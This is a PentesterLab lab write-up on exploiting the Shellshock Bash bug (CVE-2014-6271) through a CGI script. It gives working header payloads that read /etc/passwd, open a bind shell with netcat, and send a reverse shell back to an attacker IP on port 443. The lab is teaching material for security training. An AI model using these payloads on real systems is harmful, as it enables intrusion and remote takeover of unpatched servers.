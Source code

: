# Pentesterlab CVE-2014-6271/Shellshock

> Saikat Karmakar | SEPT 1 : 2021

---

## Introduction

This course details the exploitation of the vulnerability CVE-2014-6271. This vulnerability impacts the Bourne Again Shell "Bash". Bash is not usually available through a web application but can be indirectly exposed through a Common Gateway Interface "CGI".

## Fingerprinting

By visiting the application with a proxy (Burp Suite or OWASP Zap), we can detect that multiple URL are accessed when the page is loaded:

List of URLs loaded

To exploit "Shellshock", we need to find a way to "talk" to Bash. This implies finding a CGI that will use Bash. CGIs commonly use Python or Perl but it's not uncommon to find (on old servers), CGI written in Shell or even C.

## How CGIs work?

When you call a CGI, the web server (Apache here) will start a new process and run the CGI. Here it will start a Bash process and run the CGI script.

Apache needs to pass information to the CGI script. To do so, it uses environment variables. Environment variables are available inside the CGI script. It allows Apache to easily pass every headers (amongst other information) to the CGI. If you have a HTTP header named Blah in your request, you will have an environment variable named HTTP_BLAH available in your CGI.
You can quickly test this by replacing the call to `uptime` by a call to `env` in the CGI. Then if you call this script with arbitrary header, you should see them in the page.

## The vulnerability

Here, we are going to focus on the first version of the vulnerability but many more vulnerabilities in the same subpart of Bash have been found since: CVE-2014-6277, CVE-2014-6278, CVE-2014-7169, CVE-2014-7186, CVE-2014-7187...

The source of the issue is that Bash can have internal function declaration in its environment variable. The first version of the vulnerability is related to the ability to run arbitrary commands after a function declaration.

First, we need to declare that the environment variable is a function using (). Then we will add an empty body for the function. Finally, we can start adding the command we want to run after the function declaration. More details can be found in the following email on oss-sec

If you remember what we said before, Apache uses environment variables to pass headers to the CGI. Since it's a Bash based CGI, we will be able to run arbitrary command by declaring an empty function and add a command after this declaration.
Exploitation

This vulnerability can be exploited using a Proxy with a repeater mode (to be faster) or using netcat.

Multiple payloads can be used depending on what you want to achieve. You can start by reading arbitrary files by using the following payload:

```bash
$ echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; echo \$(</etc/passwd)\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc vulnerable 80
```
This payload will read the content of the file /etc/passwd and echo it in the response.
You will need to inspect the HTTP headers of the response to see the file's content.

The following part of the payload ``() { :;};`` is used to create an empty function. Then the command one wish to execute can be added.

## Bind shell

If you want to run command, the easiest way is to bind a shell. Basically you will use netcat (or nc) to listen on a port and redirect input and output to /bin/sh.

```bash
$ echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc -l -p 9999 -e /bin/sh\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc vulnerable 80
```
Here, the path to netcat/nc is given. On a real system, you will have to brute force it and it may not be installed.

If the connection starts hanging, it's a really good sign, the CGI is waiting for you to connect. You can then connect to the bound port using:

```bash
$ nc vulnerable 9999
id
uid=1000(pentesterlab) gid=50(staff) groups=50(staff),100(pentesterlab)
```
Bind shells suffer from a huge limitation: it's likely that a firewall between you and your victim will prevent you from connecting to the port you just bound. To bypass this, we are going to get the server to connect back to us.
Reverse Shell

We want the server to connect back to us. To do so, we are first going to bind a port on our system. We want a port that the server is likely to have access to, the most common are 21 (FTP), 53 (DNS), 123 (NTP), 80 (HTTP) and 443 (HTTPs) as they are probably used to keep the system up-to-date and to perform every day operations.

We are going to bind the port 443 (You will need to run this command as root or using sudo) using the following command:

**nc -l -p 443**

Now, we just need to adapt our payload to get the server to connect back to us on port 443:

```bash
echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc 192.168.159.1 443 -e /bin/sh\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc vulnerable 80
```
By going back to our initial netcat, we can now type commands locally and they will be ran on the compromised system:

```bash
nc -l -p 443
id
uid=1000(pentesterlab) gid=50(staff) groups=50(staff),100(pentesterlab)
```
Running a single command

If you are working on the online version, you will only run one command the /usr/local/bin/score [UUID] command. After you run the command, the response from the CGI to the web server will not contain two empty lines and will cause the server to send back a HTTP/500 error back to you. To make sure the attack was successful, you need to check on the pentesterlab.com website to see if the exercise is marked as score.
Conclusion

This exercise showed you how to manually detect and exploit ShellShock to gain command execution. This kind of vulnerabilities is really interesting and often stays undetected for a long time as it's located deep inside the interaction between components. I hope you enjoyed learning with PentesterLab.

Read more https://seclists.org/oss-sec/2014/q3/650